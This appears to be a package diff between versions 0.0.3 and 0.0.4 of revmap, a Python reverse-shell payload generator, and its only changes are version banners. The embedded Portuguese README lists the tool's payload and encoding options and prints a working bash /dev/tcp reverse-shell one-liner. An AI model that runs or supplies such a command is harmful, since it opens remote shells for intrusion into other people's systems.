  
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -17,18 +17,18 @@
 Funcionalidade de realizar encode das payloads desejadas (Url encode, base64,
 hexadecimal e etc) # Forma de utilizaÃ§Ã£o ```sh revmap --ip 192.168.4.80 --
 port 4444 --payload bash --encode urlencode revmap --ip 192.168.4.80 --port
 4444 --payload bash revmap --ip 192.168.4.80 --port 4444 --payload python
 revmap --ip 192.168.4.80 --port 4444 --payload perl --encode base64 ``` Isso
 exibirÃ¡ a ajuda para a ferramenta. Aqui estÃ£o todos os switches que ele
 suporta: ```yaml ___ ___ _ _ _____ ___ ___ | _| -_| | | | .'| . | |_| |___|\_/
-|_|_|_|__,| _| |_| v0.0.1 - @joaoviictorti options: --h, --help show this help
+|_|_|_|__,| _| |_| v0.0.4 - @joaoviictorti options: --h, --help show this help
 message and exit --version show program's version number and exit --ip IP
 Insert ip --port PORTA Insert port --payload
 {bash,python,powershell,nc,php,perl,ruby,telnet,xterm,mkfifo,java,golang}
 Insert payload --encode {base64,hex,urlencode} Insert encode ``` # InstalaÃ§Ã£o
 revmap requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install revmap
 ``` # Executando revmap ```console revmap --ip 192.168.4.160 --port 8080 --
 payload bash ___ ___ _ _ _____ ___ ___ | _| -_| | | | .'| . | |_| |___|\_/
-|_|_|_|__,| _| |_| v0.0.1 - @joaoviictorti bash -c 'exec bash -i &>/dev/tcp/
+|_|_|_|__,| _| |_| v0.0.4 - @joaoviictorti bash -c 'exec bash -i &>/dev/tcp/
 192.168.4.160/8080 <&1' ``` [https://capsule-render.vercel.app/
 api?type=waving&color=0000FF&height=120&section=footer]
```

### Comparing `revmap-0.0.3/revmap/encoded.py` & `revmap-0.0.4/revmap/encoded.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.3/revmap/payloads.py` & `revmap-0.0.4/revmap/payloads.py`

 * *Files identical despite different names*

### Comparing `revmap-0.0.3/revmap/revmap.py` & `revmap-0.0.4/revmap/revmap.py`

 * *Files 1% similar despite different names*

```diff
@@ -5,15 +5,15 @@
 
 def banner():
     return """
  ___ ___ _ _ _____ ___ ___ 
 |  _| -_| | |     | .'| . |
 |_| |___|\_/|_|_|_|__,|  _|
                       |_|  
-        v0.0.1 - @joaoviictorti                          
+        v0.0.4 - @joaoviictorti                          
 """
 
 
 def argumentos():
     global args
     parser = argparse.ArgumentParser(
         prog=banner(),
```
